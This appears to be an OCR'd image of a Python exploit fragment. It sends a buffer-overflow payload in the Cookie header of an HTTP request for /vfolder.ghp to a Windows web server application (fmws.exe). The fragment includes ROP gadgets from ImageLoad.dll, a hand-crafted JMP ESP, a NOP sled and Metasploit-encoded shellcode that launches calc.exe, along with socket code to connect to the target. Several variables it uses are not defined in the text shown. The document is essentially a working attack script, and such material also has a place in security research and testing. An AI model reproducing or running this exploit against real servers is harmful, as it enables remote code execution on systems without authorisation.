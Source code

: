 ```python

# Since 0x00 would break the exploit, the 0x00457452 (JMP ESP [fmws.exe]) needs to be crafted on the stack
crafted_jmp_esp=pack('<L',0xA445ABCF)

test_bl=pack('<L',0x10010125) # contains 00000000 to pass the JNZ instruction

kungfu=pack('<L',0x10022aac)  # MOV EAX,EBX # POP ESI # POP EBX # RETN [ImageLoad.dll]
kungfu+=pack('<L',0xDEADBEEF) # filler
kungfu+=pack('<L',0xDEADBEEF) # filler
kungfu+=pack('<L',0x1001a187) # ADD EAX,5BFFC883 # RETN [ImageLoad.dll] # finish crafting JMP ESP
kungfu+=pack('<L',0x1002466d) # PUSH EAX # RETN [ImageLoad.dll]

nopsled="\x90" * 70

# windows/exec CMD=calc.exe 
# Encoder: x86/shikata_ga_nai
# powered by Metasploit 
# msfpayload windows/exec CMD=calc.exe R | msfencode -b '\x00\x0a\x0d'

shellcode=("\xda\xca\xbb\xfd\x11\xa3\xae\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x33\x31\x5a\x17\x83\xc2\x04\x03\xa7\x02\x41\x5b\xab" +
"\xcd\x0c\xa4\x53\x0e\x6f\x2c\xb6\x3f\xbd\x4a\xb3\x12\x71" +
"\x18\x91\x9e\xfa\x4c\x01\x14\x8e\x58\x26\x9d\x25\xbf\x09" +
"\x1e\x88\x7f\xc5\xdc\x8a\x03\x17\x31\x6d\x3d\xd8\x44\x6c" +
"\x7a\x04\xa6\x3c\xd3\x43\x15\xd1\x50\x11\xa6\xd0\xb6\x1e" +
"\x96\xaa\xb3\xe0\x63\x01\xbd\x30\xdb\x1e\xf5\xa8\x57\x78" +
"\x26\xc9\xb4\x9a\x1a\x80\xb1\x69\xe8\x13\x10\xa0\x11\x22" +
"\x5c\x6f\x2c\x8b\x51\x71\x68\x2b\x8a\x04\x82\x48\x37\x1f" +
"\x51\x33\xe3\xaa\x44\x93\x60\x0c\xad\x22\xa4\xcb\x26\x28" +
"\x01\x9f\x61\x2c\x94\x4c\x1a\x48\x1d\x73\xcd\xd9\x65\x50" +
"\xc9\x82\x3e\xf9\x48\x6e\x90\x06\x8a\xd6\x4d\xa3\xc0\xf4" +
"\x9a\xd5\x8a\x92\x5d\x57\xb1\xdb\x5e\x67\xba\x4b\x37\x56" +
"\x31\x04\x40\x67\x90\x61\xbe\x2d\xb9\xc3\x57\xe8\x2b\x56" +
"\x3a\x0b\x86\x94\x43\x88\x23\x64\xb0\x90\x41\x61\xfc\x16" +
"\xb9\x1b\x6d\xf3\xbd\x88\x8e\xd6\xdd\x4f\x1d\xba\x0f\xea" +
"\xa5\x59\x50")

payload=junk0 + old_call_edx + junk1 + ppr + crafted_jmp_esp + test_bl + kungfu + nopsled + shellcode

payload2 = junk0 + old_call_edx + junk1 + ppr + crafted_jmp_esp + test_bl + rop_chain + nopsled + shellcode

buf="GET /vfolder.ghp HTTP/1.1\r\n"
buf+="User-Agent: Mozilla/4.0\r\n"
buf+="Host:" + host + ":" + str(port) + "\r\n"
buf+="Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
buf+="Accept-Language: en-us\r\n"
buf+="Accept-Encoding: gzip, deflate\r\n"
buf+="Referer: http://" + host + "/\r\n"
buf+="Cookie: SESSIONID=1337; UserID=" + payload2 + "; PassWD=;\r\n"
buf+="Conection: Keep-Alive\r\n\r\n"

print "[*] Connecting to Host " + host + "..."

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    connect=s.connect((host, port))
    print "[*] Connected to " + host + "!"
except:
    print "[!] " + host + " didn't respond\n"
    sys.exit(0)
```